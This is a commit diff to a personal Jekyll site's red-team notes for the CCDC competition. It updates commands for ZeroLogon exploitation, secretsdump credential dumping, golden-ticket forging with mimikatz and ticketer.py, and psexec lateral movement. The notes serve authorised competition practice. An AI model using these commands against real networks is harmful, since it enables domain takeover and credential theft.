

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/RedTeamingCCDC.md, in a window 1280 px wide and 900 px high, scrolled down 3818 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
updated notes

```diff
--- a/markdown/RedTeamingCCDC.md
+++ b/markdown/RedTeamingCCDC.md
@@ -13,6 +13,8 @@
     - `-min-hostgroup` will divide the range up into 96 sup parts
     - Instead of `-T4`, we can specify `--max-retries 2 --max-rtt-timeout {double_time_to_ping}ms --min-rate 300`
   - Then, check SMB IPs with `while read -r line; do nxc smb $line -u '' -p '' -M zerologon -M printnightmare -M smbghost -M ms17-010; done < smb_ips.txt`
+    - [ZeroLogonShot](https://github.com/XiaoliChan/zerologon-Shot) will exploit and fix
+      - `for i in {1..10}; do python3 zerologon-Shot.py {DC_name} {DC_IP_with_$i}; done`
     - If we get a zerologon hit, run `zerologon.py` and then `impacket-secretsdump -just-dc -no-pass {domain}/{machine_name}:@{DC_IP}`
       - `for i in {1..10}; do python3 zerologon.py {DC_name} {DC_IP_with_$i}; done`
       - e.g. `impacket-secretsdump -just-dc -no-pass 'corp.local/TEST-DC$@10.10.0.162'` (if DC name is TEST-DC)
@@ -155,13 +157,12 @@
 - Requires full control over the DC or a being part of a Domain Admin group
 - Dump `krbtgt` NTLM hash with mimikatz (unless we already have it)
 	- `lsadump::lsa /patch`
-- After grabbing the hash, from any domain user:
-	- `kerberos::purge` to delete any existing tickets
-	- `kerberos::golden /user:{domain_user} /domain:{domain} /sid:{domain_SID} /krbtgt:{krbtgt_NTLM_hash} /ptt`
+- After grabbing the hash:
+  - `ticketer.py -duration 10 -aesKey "{aes_key}" -domain-sid "{domain_sid}" -domain "{domain_name}" "Administrator"`
 		- The `domain_SID` can be gathered from whoami /user
 - This will essentially give the domain user Domain Admin privileges
-	- `PsExec.exe \\{domain_controller_dnshostname} powershell`
-		- Can't use the IP of the DC, as that will resort to NTLM
+	- `impacket-psexec -k -no-pass Administrator@{DC_fqdn}`
+	- Make sure we can resolve both the domain AND the DC itself
 
 **Shadow Copies**
 - Volume Shadow Service is a Microsoft backup technology that allows creation of snapshots
```
Also changed, not shown: other parts of markdown/RedTeamingCCDC.md (+6 -4 lines).
